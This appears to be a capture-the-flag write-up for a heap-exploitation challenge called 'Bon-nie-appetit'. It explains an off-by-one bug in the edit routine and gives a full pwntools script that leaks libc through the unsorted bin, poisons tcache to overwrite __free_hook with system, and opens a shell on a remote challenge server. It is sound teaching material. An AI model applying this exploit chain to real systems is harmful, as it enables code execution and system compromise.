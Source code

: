 #  Bon-nie-appetit

```
score: 325
solved: 72
difficulty: medium
tags: pwn, heap, off-byte-one
```

## Identify
We have a array of pointer `arr`. And have some options. At here we have `order` struct:
- 1 - create a new `order` and insert data
- 2 - show data of `order`
- 3 - edit data of `order`
- 4 - delete a `order`
- 5 - exit

We have bug at `edit` option because:
```c
__nbytes = strlen(*(char **)(`arr` + (long)iVar2 * 8));
read(0,pointer_to_order_chunk,__nbytes);
```
It means the edit get size of data in chunk. But we the insert data chunk using `read()` and no `\x00` append at the end of string. Therefore, we have `off-byte-one` bug at here.

## Exploit
Our aim is modify the meta-data of chunk with `off-byte-one` bug and override `__free_hook` to trigger `system("/bin/sh")` when calling `free`.
- Firstly, we have to leak libc address. We will flush the `tcache bin` with 7 chunks and trigger `unsorted bin` which is a linked list have contain libc address.
- Finally, we try to override `fd_forward` pointer of `freed chunk` in `tcache` to make it point to `__free_hook`. Then `malloc` until get chunk at `__free_hook` and override it.

POC:
```python
from pwn import *
import time
import sys

ts = 0.1

exe = ELF("./bon-nie-appetit")
libc = ELF("./glibc/libc.so.6")

s = '''
init-gef
b new_order
b delete_order
b show_order
'''
# p = process(exe.path)
p = remote("178.62.83.221",30713)

chunks = [0 for i in range(0x14)]
crr = 0

def check_crr():
    global crr
    global chunks
    for i in range(len(chunks)):
        if chunks[i] == 0:
            crr = i
            break

def make(size,data):
    p.sendafter(b"> ",b"1\n")
    p.sendafter(b"many: ", str(size).encode() + b"\n")
    p.sendafter(b"order: ", data)
    time.sleep(ts)

    global chunks
    global crr
    check_crr()
    chunks[crr] = 1
    check_crr()

def show(index):
    p.sendafter(b"> ", b"2\n")
    p.sendafter(b"order: ", str(index).encode() + b"\n")
    tmp = p.recvuntil(b"+=")
    return tmp

def edit(index,data):
    p.sendafter(b"> ", b"3\n")
    p.sendafter(b"order: ", str(index).encode() + b"\n")
    p.sendafter(b"order: ", data)
    time.sleep(ts)

def delete(index):
    p.sendafter(b"> ", b"4\n")
    p.sendafter(b"order: ", str(index).encode() + b"\n")
    global chunks
    chunks[index] = 0
    check_crr()

def main(): 
    # gdb.attach(p,gdbscript = s)
    # time.sleep(2)

    size = 0x98
    real_size = 0xa0
    # Fill 7 node of a Tcache index -> free() to unsorted-bin
    for i in range(11):
        log.info("Make chunk with size {} at pos {}".format(hex(size),crr))
        make(size,b"A"*size)
    log.info("Current size: {}".format(hex(size)))
    for i in range(7):
        log.info("Delete chunk at {}".format(i))
        delete(i)
    log.info("Delete chunk at {}".format(9))
    delete(9)
    log.info("Delete chunk at {}".format(7))
    delete(7)
    leak_chunk = 7
    log.info("Need leak chunk at {}".format(leak_chunk))

    # Leak libc from the chunk in unsorted-bin
    for i in range(2):
        log.info("Make chunk with size {} at pos {} -> ref to {}".format(hex(size),crr,6-crr))
        make(size,b"B"*size)
    log.info("Current chunks status:")
    log.info(repr(chunks))
    
    # Override metadata of chunk pos 6 to overlap chunk at chunk pos 7
    data = b"B"*size
    data += p64(real_size+0x10+1) # override the meta data of chunk pos 6
    log.info("Edit chunk at {} -> ref to {}".format(1,5))
    edit(1, data)

    # free and malloc chunk 6 to get new size
    # override metadata of chunk to leak unsorted area and libc in chunk 7 -> fd_backward
    log.info("Delete chunk 0 ref to 6")
    delete(0)
    log.info("Make chunk with size {} at pos {}".format(hex(size+0x10),crr))
    make(size+0x10,b"B"*(size+8-1)+b"`")
    log.info("Show chunk 0 ref to 6")
    tmp = show(0)
    x = tmp.find(b"`")
    leak = tmp[x+1:x+7]
    leak = u64(leak.ljust(8,b"\x00"))
    next_chunk= leak
    log.info("heap next chunk: {}".format(hex(next_chunk)))

    # leak libc
    pad = 0x3ebca0
    log.info("Delete chunk 0 ref to 6")
    delete(0)
    log.info("Make chunk with size {} at pos {}".format(hex(size+0x10),crr))
    make(size+0x10,b"B"*(size+0x10-1)+b"`")
    log.info("Show chunk 0 ref to 6")
    tmp = show(0)
    x = tmp.find(b"`")
    leak = tmp[x+1:x+7]
    leak = u64(leak.ljust(8,b"\x00"))
    libc.address = leak - pad
    log.info("Libc base: {}".format(hex(libc.address)))

    # refresh chunk
    log.info("Refresh leaked chunk")
    edit(0,b"B"*size + p64(real_size+1) + p64(next_chunk))
    for i in range(7):
        log.info("Make chunk with size {} at pos {}".format(hex(size),crr))
        make(size,b"B"*size)
    
    log.info("Current status arr pointer: {}".format(repr(chunks)))
    # overide the chunks 2,3 and 4 like 0 and 1 and 7 to override pointer in tcache
    data = b"B"*size
    data += p64(real_size+0x10+1) # override the meta data of chunk pos 6
    log.info("Edit chunk 4 for override size chunk 3")
    edit(4, data)
    log.info("Delete chunk 2 and chunk 3 and chunk 5")
    delete(3)
    delete(5)
    delete(2)
    data = b"/bin/sh\x00"
    data += b"B"*(size-len(data))
    data += (p64(real_size+1)+p64(libc.symbols.__free_hook))
    log.info("Make chunk 2->ref 3 to inject free_hook pointer")
    make(size+0x10,data)
    log.info("Make a chunk pad")
    make(size,b"/bin/sh")
    log.info("Override free_hook to system")
    make(size,p64(libc.symbols.system))
    log.info("Trigger free_hook")
    log.info("Currrent status: {}".format(repr(chunks)))
    delete(3)
    
    p.interactive()
if __name__ == "__main__":
    main()
```